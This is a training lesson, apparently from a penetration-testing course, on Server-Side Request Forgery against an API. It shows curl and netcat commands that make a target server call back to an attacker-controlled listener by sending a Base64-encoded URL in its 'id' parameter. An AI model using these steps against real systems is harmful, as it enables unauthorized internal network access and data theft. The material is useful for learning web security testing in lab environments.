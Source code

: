 Server-Side Request Forgery (SSRF) attacks, listed in the OWASP top 10, allow us to abuse server functionality to perform internal or external resource requests on behalf of the server. We usually need to supply or modify URLs used by the target application to read or submit data. Exploiting SSRF vulnerabilities can lead to:

-   Interacting with known internal systems
-   Discovering internal services via port scans
-   Disclosing local/sensitive data
-   Including files in the target application
-   Leaking NetNTLM hashes using UNC Paths (Windows)
-   Achieving remote code execution

As we have mentioned multiple times, though, we should fuzz every identified parameter, even if it does not seem tasked with fetching remote resources. Suppose we are assessing such an API residing in `http://<TARGET IP>:3000/api/userinfo`.

```sh
$ curl http://<TARGET IP>:3000/api/userinfo
{"success":false,"error":"'id' parameter is not given."}
```

* The API is expecting a parameter called _id_
* Since we are interested in identifying SSRF vulnerabilities in this section, let us set up a Netcat listener first

```sh
$ nc -nlvp 4444
listening on [any] 4444 ...
```

```sh
$ curl "http://<TARGET IP>:3000/api/userinfo?id=http://<VPN/TUN Adapter IP>:<LISTENER PORT>"
{"success":false,"error":"'id' parameter is invalid."}
```

* We notice an error about the _id_ parameter being invalid, and we also notice no connection being made to our listener
* In many cases, APIs expect parameter values in a specific format/encoding
* Try Base64-encoding

```sh
$ echo "http://<VPN/TUN Adapter IP>:<LISTENER PORT>" | tr -d '\n' | base64
$ curl "http://<TARGET IP>:3000/api/userinfo?id=<BASE64 blob>"
```

```sh
$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [<VPN/TUN Adapter IP>] from (UNKNOWN) [<TARGET IP>] 50542
GET / HTTP/1.1
Accept: application/json, text/plain, */*
User-Agent: axios/0.24.0
Host: <VPN/TUN Adapter IP>:4444
Connection: close
```

**Note** As time allows, try to provide APIs with input in various formats/encodings